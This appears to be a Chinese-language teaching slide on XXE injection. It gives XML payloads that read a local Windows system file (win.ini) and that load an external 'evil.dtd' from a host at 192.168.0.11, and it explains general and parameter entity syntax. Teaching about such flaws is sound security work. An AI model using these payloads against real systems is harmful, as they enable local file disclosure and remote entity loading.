

XXE注入漏洞
直接通过DTD外部实体声明
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<a>&xxe;</a>

通过DTD文档引入外部DTD文档中的外部实体声明
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % d SYSTEM "http://192.168.0.11/evil.dtd">
    %d;
]>
<a>&xxe;</a>

通过DTD外部实体声明引入外部DTD文档中的外部实体声明

<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % d PUBLIC "PUBLIC_ID" "http://192.168.0.11/evil.dtd">
    %d;
]>
<a>&xxe;</a>

实体又分为一般实体和参数实体
1、一般实体的声明语法:
一般实体的声明格式：<!ENTITY 实体名
引用实体的方式：&实体名；

2、参数实体只能在DTD中使用，
参数实体的声明格式： <!ENTITY  % 实体名
引用实体的方式：%实体名；